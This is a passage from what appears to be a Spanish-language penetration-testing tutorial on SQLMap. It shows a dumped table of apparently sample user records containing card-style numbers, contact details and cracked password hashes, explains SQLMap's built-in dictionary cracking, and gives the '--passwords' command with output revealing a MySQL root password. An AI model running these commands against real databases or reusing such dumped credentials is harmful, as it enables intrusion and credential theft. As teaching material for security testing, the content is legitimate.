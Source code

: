 ```shell-session
| 2  | 4539475107874477 | Julio Thomas      | JulioWThomas@gmail.com      | 973-426-5961 | 1207 Granville Lane    | February 14 1972  | 10945aa229a6d569f226976b22ea0e900a1fc219 (taqris)           | Agricultural product sorter                       |
| 3  | 4716522746974567 | Kenneth Maloney   | KennethTMaloney@gmail.com   | 954-617-0424 | 2811 Kenwood Place     | May 14 1989       | a5e68cd37ce8ec021d5ccb9392f4980b3c8b3295 (hibiskus)         | General and operations manager                    |
| 4  | 4929811432072262 | Gregory Stumbaugh | GregoryBStumbaugh@yahoo.com | 410-680-5653 | 1641 Marshall Street   | May 7 1936        | b7fbde78b81f7ad0b8ce0cc16b47072a6ea5f08e (spiderpig8574376) | Foreign language interpreter                      |
| 5  | 4539646911423277 | Bobby Granger     | BobbyJGranger@gmail.com     | 212-696-1812 | 4510 Shinn Street      | December 22 1939  | aed6d83bab8d9234a97f18432cd9a85341527297 (1955chev)         | Medical records and health information technician |
| 6  | 5143241665092174 | Kimberly Wright   | KimberlyMWright@gmail.com   | 440-232-3739 | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |
| 7  | 5503989023993848 | Dean Harper       | DeanLHarper@yahoo.com       | 440-847-8376 | 3766 Flynn Street      | February 3 1974   | 2b89b43b038182f67a8b960611d73e839002fbd9 (raided)           | Store detective                                   |
| 8  | 4556586478396094 | Gabriela Waite    | GabrielaRWaite@msn.com      | 732-638-1529 | 2459 Webster Street    | December 24 1965  | f5eb0fbdd88524f45c7c67d240a191163a27184b (ssival47)         | Telephone station installer                       |
```

SQLMap tiene capacidades automáticas para descifrar hash de contraseñas. Al recuperar cualquier valor que se asemeje a un formato hash conocido, SQLMap nos solicita que realicemos un ataque basado en diccionario sobre los hash encontrados.

Los ataques de descifrado de hash se realizan de forma multiprocesamiento, en función del número de núcleos disponibles en el ordenador del usuario. Actualmente, hay una compatibilidad implementada para descifrar 31 tipos diferentes de algoritmos hash, con un diccionario incluido que contiene 1,4 millones de entradas (compiladas a lo largo de los años con las entradas más comunes que aparecen en las filtraciones de contraseñas disponibles públicamente). Por lo tanto, si un hash de contraseña no se elige al azar, hay una gran probabilidad de que SQLMap lo descifre automáticamente.

### Enumeración y descifrado de contraseñas de usuarios de bases de datos

Además de las credenciales de usuario que se encuentran en las tablas de la base de datos, también podemos intentar volcar el contenido de las tablas del sistema que contienen credenciales específicas de la base de datos (por ejemplo, credenciales de conexión). Para facilitar todo el proceso, SQLMap cuenta con un modificador especial, --passwords, diseñado específicamente para esta tarea.

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

```shell-session
[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes 
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass
```
